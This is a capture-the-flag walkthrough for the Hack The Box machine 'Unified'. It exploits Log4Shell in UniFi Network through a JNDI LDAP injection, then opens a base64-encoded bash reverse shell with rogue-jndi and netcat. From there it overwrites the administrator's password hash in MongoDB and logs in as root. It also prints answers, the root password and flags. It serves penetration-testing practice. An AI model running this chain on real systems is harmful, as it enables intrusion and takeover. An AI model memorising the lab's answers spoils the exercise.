# Unified
- Difficulty: Very easy 

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.

## Task Breakdown
**1. Which are the first four open ports?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.

> **Answer:** 22,6789,8080,8443

**2. What is the title of the software that is running running on port 8443?**

> **Answer:** UniFi Network

**3. What is the version of the software that is running?**
- Access to this via `https://[IP-Address]:8443` will automatedly redirect us to `/manage/account/login?redirect=%2Fmanage`, reveal a login page. The software version is also displayed here.  

> **Answer:** 6.4.54

**4. What is the CVE for the identified vulnerability?**
- Searching on the Internet about this program's version CVE will show us [this](https://github.com/puzzlepeaches/Log4jUnifi.git). This is about Log4j vulnerabilities in Unifi software, get a reverse shell, and leverage our access to add our own administrative user to the Unifi MongoDB instance.
> **Answer:** CVE-2021-44228

**5. What protocol does JNDI leverage in the injection?**
- Information on this can be found in security write-ups, such as [this one](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/?msockid=1369038a9eec646f38d717dc9ffe65a2) and we have **the protocol, such as “ldap”, “ldaps”, “rmi”, “dns”, “iiop”, or “http”, precedes the attacker domain**
> **Answer:** ldap

**6. What tool do we use to intercept the traffic, indicating the attack was successful?**
> **Answer:** tcpdump

**7. What port do we need to inspect intercepted traffic for?**
- The default port for LDAP is 389, as confirmed [here](https://serverfault.com/questions/682594/which-ports-are-required-in-order-to-authenticate-against-a-ldap-server-in-anoth)
> **Answer:** 389

**8. What port is the MongoDB service running on?**
- Use **Burp Suite** to intercept HTTP traffic. Send the **login** request to **Repeater**

- Change `remember` value to `"${jndi:ldap://[our-IP-Address]/whatever}"`. 

- Before clicking **Send**, run `sudo tcpdump -i tun0 port 389` to capture all packets in port 389

- Or you can also use **WireShark** for the same purpose

- We see that there are some traffic between our machine and target machine. We can assume this program is vulnerable to **Log4J**.
- Here I use [this tool](https://github.com/veracode-research/rogue-jndi) to exploit this vulnerability. Install some dependencies and run `mvn package` to build it.

- Create a reverse shell and convert to Base64 with `echo 'bash -c bash -i >& /dev/tcp/[out-IP-Address]/4444 0>&1' | base64`
- Now run the program with the following payload: `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,[base64-string]}|{base64,-d}|{bash,-i}" --hostname "[our-IP-Address]"`. It will show some LDAP mappings

- Open a new terminal and run `nc -lvnp 4444` to start listening on a port
- Back to the **Burp Suite** Repeater, change value of **remember** to `"${jndi:ldap://[our-IP-Address]:1389/o=tomcat}"`. 

- Clicking **Send** and it will start sending LDAP ref resource and Netcat will listen on the port. Now you can excecute commands as `unifi` user.

- You can also create a stable shell with `script /dev/null -c bash`
- Now run `ps aux | grep mongo` to search for processes related to MongoDB

> **Answer:** 27117

**9. What is the default database name for UniFi applications?**
- Connect to MongoDB with `mongo --port 27117`, run `show databases` to list all databases  

> **Answer:** ace

**10. What is the function we use to enumerate users within the database in MongoDB?**
> **Answer:** db.admin.find()
- Run `mongo --port 27117 ace  --eval "db.admin.find().forEach(printjson);"` to retrieve all documents from the `admin` collection, printing each document in JSON format to the terminal. We can see that user `administrator` will have password (`x_shadow`) saved as SHA-512 


**11. What is the function we use to update users within the database in MongoDB?**
> **Answer:** db.admin.update()
- So now create a SHA-512 password with `mkpasswd -m SHA-512 [any-password-you-want]`

- Update the `administrator`'s `x_shadow` to the password we have created by `mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")}, {$set:{"x_shadow":"[new-SHA512-string]"}})'`. 


**12. What is the password for the root user?**
- Now we can login with as `administrator` with the new password. Navitigate to **Settings**>**Device Authentication** to find the root password.  
> **Answer:** NotACrackablePassword4U2022

## Submit user flag
- Back to the unifi machine, the user flag should be located in `home/michael`

- **User flag:** 6ced1a6a89e666c0620cdb10262ba127

## Submit root flag
- Use SSH to login as root with the found password  and the flag is here  
- The root flag is here!
  
- **Root flag:** e50bc93c75b634e4b272d2f771c33681
